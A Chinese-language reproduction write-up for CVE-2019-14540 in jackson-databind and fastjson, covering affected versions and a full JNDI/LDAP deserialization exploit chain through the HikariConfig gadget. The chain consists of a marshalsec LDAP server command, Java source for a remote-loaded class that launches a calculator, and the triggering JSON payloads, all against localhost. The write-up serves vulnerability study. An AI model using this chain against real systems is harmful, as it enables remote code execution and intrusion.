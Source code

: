 # CVE-2019-14540 FasterXML jackson-databind 远程命令执行漏洞

### 一、漏洞简介

FasterXML Jackson是美国FasterXML公司的一款适用于Java的数据处理工具。jackson-databind是其中的一个具有数据绑定功能的组件。 FasterXML jackson-databind 2.9.10之前版本中存在输入验证错误漏洞。攻击者可利用该漏洞执行代码。

### 二、漏洞影响

jackson-databind <=2.7.9.6,2.8.11.4,2.9.9.3

fastjson <= 1.2.59

### 三、复现过程

**分析过程**

我喜欢用 gradle 来管理项目，先依赖一个最新版的回来


```
compile 'com.zaxxer:HikariCP:2.4.0'
```

观察 HikariConfig.java 的setter 和 getter 方法，稍微有点常识的人都能看出， setMetricRegistry 和 setHealthCheckRegistry 里有明显的lookup方法，下一步就是按照标准的剧本去利用一遍了，经典的jndi漏洞利用，老司机应该分分钟就搞定，但我从来没写过利用，就从头学习一下。

**利用过程（常见的jndi利用）**

首先，我利用的是 ldap 协议，需要在低版本（小于 java8u191）下利用，详细原理我不是很清楚，大致原理就是从远程加载一个 class文件，调用它的构造函数，在构造函数里可以执行任意代码。

然后，借用 https://github.com/ianxtianxt/marshalsec 提供的转发功能，创建 ldap server，作用是转发到另一个 http server 上，使用非常方便。


```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 1389

Listening on 0.0.0.0:1389
```

然后编译一个 Exploit.class 出来，找个地方放好


```
public class Exploit {
    public Exploit() {
        try {
            if (System.getProperty("os.name").toLowerCase().startsWith("win")) {
                Runtime.getRuntime().exec("calc.exe");
            } else if (System.getProperty("os.name").toLowerCase().startsWith("mac")) {
                Runtime.getRuntime().exec("open /Applications/Calculator.app");
            } else {
                System.out.println("No calc for you!");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

然后在 Exploit.class 目录，开一个 http 服务


```
python -m SimpleHTTPServer
```

之后使用 jackson 进行反序列化


```
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
mapper.readValue("[\"com.zaxxer.hikari.HikariConfig\", {\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}]".getBytes(), Object.class);
```

或者使用 fastjson 进行反序列化


```
ParserConfig.global.setAutoTypeSupport(true);
JSON.parse("{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}");
```

即可触发弹计算器

![](images/15890244513137.png)


**文中代码的github地址:**

https://github.com/ianxtianxt/cve-2019-14540-exploit

## 参考链接

https://www.leadroyal.cn/?p=939

https://www.restran.net/2018/10/29/fastjson-rce-notes/

https://paper.seebug.org/942/